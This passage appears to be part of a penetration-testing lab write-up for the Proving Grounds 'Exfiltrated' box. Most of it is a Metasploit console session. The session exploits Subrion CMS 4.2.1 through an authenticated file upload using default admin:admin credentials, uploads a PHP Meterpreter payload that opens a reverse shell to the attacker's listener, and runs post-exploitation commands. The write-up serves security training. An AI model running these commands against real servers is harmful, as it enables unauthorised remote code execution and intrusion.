 ```
OS          : Linux debian 4.19.0-24-amd64 #1 SMP Debian 4.19.282-1 (2023-04-29) x86_64
Meterpreter : php/linux
meterpreter > 
```

### Subrion CMS v4.2.1 on Ubuntu 20.04 (Exfiltrated from Proving Grounds Practice)

* Using PHP paylod - default TARGET 0

```
msf > use exploit/multi/http/subrion_cms_file_upload_rce
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(multi/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.195.163
RHOSTS => 192.168.195.163
msf exploit(multi/http/subrion_cms_file_upload_rce) > set LHOST tun0
LHOST => tun0
msf exploit(multi/http/subrion_cms_file_upload_rce) > set LPORT 80
LPORT => 80
msf exploit(multi/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.45.162:80 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.195.163:80/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.2.1.
[!] This version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[+] The target appears to be vulnerable.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: rtPDWFrHa45hIhhXhLknM7DbWiHqAfux1fziFd3j
[*] Logging in to Subrion Admin Panel at: http://192.168.195.163/panel/ using credentials admin:admin
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.195.163/uploads/ixqywjyjyd.phar
[*] Executing 'ixqywjyjyd.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.195.163
[*] Meterpreter session 1 opened (192.168.45.162:80 -> 192.168.195.163:57658) at 2023-07-24 10:35:58 -0400
[+] Successfully executed payload: http://192.168.195.163/uploads/ixqywjyjyd.phar

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : exfiltrated
OS          : Linux exfiltrated 5.4.0-74-generic #83-Ubuntu SMP Sat May 8 02:35:39 UTC 2021 x86_64
Meterpreter : php/linux
meterpreter > shell
Process 2489 created.
Channel 0 created.
cat /etc/os-release               
NAME="Ubuntu"
VERSION="20.04.2 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.2 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
```